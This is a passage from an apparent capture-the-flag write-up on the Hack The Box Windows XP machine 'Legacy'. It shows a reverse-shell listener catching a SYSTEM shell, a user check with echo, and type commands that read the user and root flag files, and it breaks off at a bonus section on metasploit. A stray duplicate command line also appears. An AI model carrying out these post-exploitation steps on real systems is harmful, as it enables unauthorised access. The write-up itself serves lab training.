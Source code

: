 After a moment we have a system shell in the other terminal:

```
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.4] 1031
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>

```

Early Windows XP doesn't have whoami, lets check who we are:

``` cmd
echo %computername%\%username%
```

gives us

```
LEGACY\%username%

```

Looks like there is no %username% variable for this user, I think we might be system.
When I check for the root flag, I can find it I can grab the flags and submit.

W00tW00t!

## Value Extraction

At this point I can grab both flags:

### Getting User

``` cmd
type "C:\Documents and Settings\john\Desktop\user.txt"
{{ page.hide | slice: 0, 20 | downcase }}{{ page.user | slice: 20, 32 }}
```

### Getting Root

``` cmd
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
{{ page.hide | slice: 0, 20 | downcase }}{{ page.root | slice: 20, 32 }}
```


type "C:\Documents and Settings\john\Desktop\user.txt"

## Bonus 

### msfconsole

With the removal of python 2 support we can look at either a python3 re-work _or_ metasploit module:
